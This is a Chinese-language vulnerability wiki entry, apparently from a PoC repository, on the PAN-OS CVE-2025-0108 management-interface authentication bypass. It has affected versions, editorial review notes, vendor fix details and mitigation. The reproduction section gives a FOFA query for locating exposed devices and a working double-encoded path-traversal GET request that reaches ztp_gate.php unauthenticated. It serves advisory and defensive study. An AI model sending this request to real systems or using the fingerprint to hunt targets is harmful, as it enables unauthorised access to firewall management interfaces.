

# Palo Alto Networks PAN-OS 身份验证绕过漏洞(CVE-2025-0108)

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：PAN-OS管理Web
- 本文讨论：CVE-2025-0108
- 版本、权限与配置前提：管理面可达，无认证；列四个分支修复界线
- 资料类型：认证绕过PoC摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- fofa元数据残缺icon_hash=；请求未围栏
- 仅访问ztp_gate.php及截图，系统接管是潜在后果缺链路证据；在野状态无时点
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- hotfix列表和响应鉴权差异需核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

该漏洞是由于PAN-OS中Nginx/Apache对路径的处理不同导致的。未经授权的攻击者可以利用这一漏洞绕过系统身份验证直接访问Web界面从而造成敏感数据泄露或系统被接管等更大的危害。

# 影响版本

PAN OS 11.2 < 11.2.4-h4

PAN OS 11.1 < 11.1.6-h1

PAN OS 10.2 < 10.2.13-h3

PAN OS 10.1 < 10.1.14-h9

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="873381299"

POC/EXP：

```
GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1
```





# 漏洞修复

目前官方已发布安全更新，建议用户尽快升级至最新版本：

https://security.paloaltonetworks.com/CVE-2025-0108

缓解方案：

对管理 Web 界面的访问限制为仅受信任的内部 IP 地址。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）


## 2026-10-03 公开验证资料补充：PAN-OS PHP 端点认证绕过

PAN CNA 明确本问题是管理 Web 接口认证绕过，可调用部分 PHP 脚本，本身不提供 RCE；不影响 Cloud NGFW、Prisma Access。原文四条简单版本阈值不能覆盖各维护 hotfix：10.2 还有 10.2.7-h24、10.2.8-h21、10.2.9-h21、10.2.10-h14、10.2.11-h12、10.2.12-h6，11.1 还有 11.1.2-h18；需按所在分支核对厂商表。

固定 ProjectDiscovery 模板已全文静态阅读：GET `/unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css` 后，要求 200、HTML 内容类型，以及 `Zero Touch Provisioning (ZTP)` 或对应 title。此输入和成功页面判据补齐旧文的纯截图说明；它不能证明 shell、任意文件读取或整机接管。

模板只有单个 GET，无上传、命令、依赖安装或外部回连，但确实触达受保护管理功能，不能等同普通产品指纹。旧请求和值保持不变，未执行请求、未查看旧截图。限制管理面只允许可信内部地址是缓解；修复按官方对应 release/hotfix。

独立复核补注：同一 CNA solutions 还标明 PAN-OS 11.0 于 2024-11-17 EOL，未计划新增修复，应迁移到受支持修复版本。这里引用的是已保存公告快照，未把其修复列表宣称为当前所有后续维护版本的完整清单。

### 本补充的公开来源与读取范围

- <https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2025/0xxx/CVE-2025-0108.json>（CNA字段摘读；ADP及其他字段不计全文；SHA-256 `618f52f99c3a758dd32515490c5091c61ab2c10fd00725cf17cf2bc3dbe89270`）
- <https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2025/CVE-2025-0108.yaml>（固定代码全文静态阅读；SHA-256 `77f801d256eb5b5358678ea2e342c670526576e7bcc52f00a5e23c6c9928de58`）
